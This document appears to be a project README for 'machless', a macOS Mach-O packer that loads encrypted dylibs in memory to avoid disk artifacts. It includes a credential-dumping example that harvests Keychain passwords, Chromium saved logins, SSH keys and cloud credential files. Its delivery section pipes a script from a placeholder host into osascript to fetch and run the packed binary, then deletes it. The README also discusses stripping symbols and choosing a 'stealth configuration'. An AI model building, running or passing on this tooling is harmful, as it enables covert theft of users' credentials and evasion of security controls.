

# machless

<div align="center">
  
</div>

Apple Silicon Mach-O packer using Patrick Wardle's ReflectiveLoader. It maps a
constructor-based dylib in the current process without writing the plaintext
dylib to disk.

## How to use it




## Build

```sh
make all
make pack INPUT=payload.dylib OUTPUT=packed_app
# Outputs are ad-hoc signed by default. Opt out explicitly if needed:
make pack INPUT=payload.dylib OUTPUT=packed_app SIGN_IDENTITY=
./packed_app
```

Single-layer output defaults to the local ChaCha20-Poly1305 implementation.
That keeps unused CommonCrypto GCM SPI symbols out of the final import table.
AES-GCM remains available:

```sh
make pack INPUT=payload.dylib OUTPUT=packed_app CIPHER=aes-gcm
```

The normal target retains only the ARM64 payload slice, links only its selected
decryptor, strips nonessential symbols, and ad-hoc signs the final image.
Set `SIGN_IDENTITY=` to leave it unsigned, or
`SIGN_IDENTITY="Developer ID Application: ..."` to use an available identity.

`KEEP_INTERMEDIATES=1` retains `<output>.packed` and the complementary
`<output>.profile.h`. The profile is sufficient to unwrap the container key;
normal builds keep it in a temporary file and remove the intermediate packed
blob after the final link or requested signing pass.
 
## Credential example

The three switches at the top of `examples/credential-dump/credentials.c`
select the collectors compiled into the example:

```c
#define KEYCHAIN 1 /* generic and internet-password Keychain items */
#define BROWSER  1 /* Chromium-family Login Data */
#define SECRETS  1 /* SSH and common cloud/developer credential files */
```

The Keychain collector enumerates generic-password and internet-password
records and requests each value with Security.framework. 

```sh
make -C examples/credential-dump
make pack \
  INPUT=examples/credential-dump/build/credentials.dylib \
  OUTPUT=credential-demo \
  SIGN_IDENTITY=-
./credential-demo
```

`ML_CREDENTIAL_ROOT` changes the filesystem root for browser and file
collectors. `ML_KEYCHAIN_SERVICE` optionally limits Keychain enumeration to one
generic-password service for controlled testing.

## Delivery examples

`osa-install` is the conventional AppleScript path: it calls `curl`, `chmod`,
the staged binary, and `rm`. `osa-install2` is the lower-process-count JXA
variant. It performs the HTTP transfer and temporary-file operations inside
`osascript`, launches only the encrypted outer executable, captures stdout,
and removes it after completion.

```sh
osascript ./osa-install https://DOMAIN/packed_app
osascript -l JavaScript ./osa-install2 https://DOMAIN/packed_app

curl -fsS https://DOMAIN/osa-install2 | \
  osascript -l JavaScript - https://DOMAIN/packed_app
```

The JXA variant implements the lower-process-count staging path described in
the compatibility section; it does not change the standalone launch model.

## Other targets

```sh
make pack-dylib INPUT=payload.dylib OUTPUT=packed_loader.dylib
make matryoshka INPUT=payload.dylib OUTPUT=packed_nested
```

The dylib target initializes on load in a compatible host. The nested target
uses one shared split-key profile around independent AES-GCM and ChaCha20
containers. It adds crypto and mapping work and is not the preferred stealth
configuration; use the single ChaCha layer unless independent layers serve a
specific test.

Verify an explicitly signed artifact with:

```sh
codesign --verify --strict --all-architectures --verbose=4 ./packed_app
codesign -d --verbose=4 ./packed_app
otool -l ./packed_app
```
